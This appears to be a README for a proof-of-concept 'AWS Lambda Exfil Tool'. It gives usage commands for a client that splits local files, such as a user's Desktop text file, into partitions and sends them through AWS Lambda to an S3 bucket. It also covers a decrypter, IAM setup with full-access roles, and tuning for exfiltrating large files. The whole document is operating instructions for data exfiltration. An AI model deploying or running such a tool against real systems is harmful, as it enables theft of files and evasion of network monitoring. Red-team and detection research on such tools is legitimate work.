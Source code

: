 # AWS Lambda Exfil Tool [PoC]

Here we have a small PoC on how the program works  

![StandaloneClientGif](media/standaloneClient.gif)

## About
The program follows the following diagram. Explanation on how each part functions is present on standaloneClient pdf file.  

![StandaloneClient diagram](media/Standalone_client_1.png?raw=true "Standalone Client Diagram")


## Usage
#### Client
`py clientName.py -s <Partition size in kb> -i <File to exfiltrate>`  
Example:  
`py clientName.py -s 100 -i "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py "Hostname" "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py "ID4A0E" "test"`
## Setup

###### Note: Use python 3.x  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

###### Run `pip install -r requirements.txt`

###### Run `py setup.py` and follow the prompts

#### Partitions
Partition size is by default 100 bytes, this can be changed by accessing standaloneClient_template.py and modifiying the value. This could be helpful when exfiltrating large files, as the time it would take to exfiltrate 1GB of data with 100B partitions will be really significant.

#### Supported Files
The tool supports txt, csv and xlsx files but every file that is text based (For example a .py file) will be exfiltrated succesfully.
